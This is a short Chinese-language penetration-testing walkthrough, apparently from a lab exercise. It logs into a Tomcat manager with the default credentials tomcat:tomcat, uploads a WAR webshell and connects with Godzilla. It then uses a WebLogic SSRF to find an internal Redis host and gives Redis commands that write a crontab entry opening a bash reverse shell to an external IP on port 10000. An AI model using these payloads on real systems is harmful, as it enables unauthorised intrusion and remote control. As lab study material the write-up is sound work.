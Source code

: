 ### 1、访问tomcat后台

```
http://212.129.238.18:8080/manager/html
```

输入弱密码`tomcat:tomcat`，即可访问后台：

### 2、上传war包 getshell

![image-20220306184135325](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061841384.png)

### 3、使用哥斯拉连接

![image-20220306184205896](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061842030.png)



## weblogic/ssrf

SSRF漏洞位于http://192.168.61.143:7001/uddiexplorer/SearchPublicRegistries.jsp

![image-20220306185654643](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061856727.png)

### 1、测试访问自身

![image-20220306185718859](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061857972.png)

### 2、搜索爆破redis ip

因为访问的响应可以判断端口是否打开

![image-20220306192044718](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061920984.png)

找到内网redis的内网ip 192.168.64.2:6379

![image-20220306192755344](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061927449.png)

### 3、编写 redis的payload

```
set 1 "\n\n\n\n bash -i >& /dev/tcp/212.129.238.18/10000 0>&1\n\n\n\n
config set dir /etc/
config set dbfilename crontab
save

=============================

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/212.129.238.18/10000 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
